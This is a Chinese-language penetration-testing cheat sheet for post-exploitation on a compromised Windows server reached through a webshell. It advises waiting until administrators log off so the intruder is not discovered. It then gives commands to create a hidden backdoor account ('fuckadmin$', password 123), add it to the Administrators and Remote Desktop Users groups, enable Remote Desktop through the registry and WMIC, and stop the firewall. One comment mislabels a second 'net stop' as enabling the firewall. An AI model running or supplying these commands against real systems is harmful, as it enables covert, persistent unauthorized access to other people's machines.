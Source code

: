 













#提权预处理



[TOC]






####执行命令查看在线用户





```

#执行命令,查看在线用户，如果有用户在线，就不要在做其他渗透了，防止被发现，等管理员下线之后再操作

query user

#发现管理员2015年11月27日登录之后没再登陆



```







 ![alt text](.\pic\queryuser.png)




#####常用的windows命令

```

ipconfig        #显示本地IP地址

whoami			#查看webshell权限

net user fuckadmin$ 123 /add    #添加用户fuckadmin$及密码为123的用户

net localgroup administrators fuckadmin$ /add  #添加fuckadmin$到管理员组

wmic path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1    #一键开启远程桌面命令,需要administrator及以上

注册表开启3389
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

net stop sharedaccess   #关闭防火墙 

net stop sharedaccess   #开启防火墙







```



```

whoami的安装

1)下载文件whoami.exe 6.1.7600.16385文件到您的桌面上。

(2)将whoami.exe 6.1.7600.16385文件放到提示丢失的文件的程序目录下。

(3)如果第2步是行不通的。将文件whoami.exe 6.1.7600.16385到系统目录下

C:\Windows\System (Windows 95/98/Me)

C:\WINNT\System32 (Windows NT/2000)

C:\Windows\System32 (Windows XP, Vista)

C:\Windows\System32 (Windows 7/8/2008r2)

C:\Windows\SysWOW64 (Windows 7/8/2008r2)

```





####关于远程桌面端口的查看操作





#####第一种方法查看远程端口以及开远程桌面注册表命令



```

查看远程端口命令:



REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber



返回的为16进制



HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp

    PortNumber    REG_DWORD    0xd3d



#将0xd3d由16进制转为10进制为3389

```





```

开启远程桌面命令：



REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f



```







#####第二种方法查看远程桌面端口



```

#看看有没有TermService,有的话说明开启了远程桌面端口

tasklist /svc

#执行完之后PID:640知道了PID为640

```



 ![alt text](.\pic\/tasklistsvc.png)



```

然后执行

netstat -ano

tcp   PID：640所对应的端口为3389

```


 ![alt text](.\pic\/netstat-ano.png)




#####添加用户以及添加到管理员组以及远程桌面组（如果为管理员权限却登录不了远程桌面看这个）



```

#添加用户fuckadmin$及密码为123的用户

net user fuckadmin$ 123 /add

#添加fuckadmin$到管理员组

net localgroup administrators fuckadmin$ /add



#尝试一下远程桌面连接，如果连接不上，且远程桌面端口开放，那么把管理员添加到远程桌面组试一试

net localgroup "Remote Desktop Users" fuckadmin$ /add





```



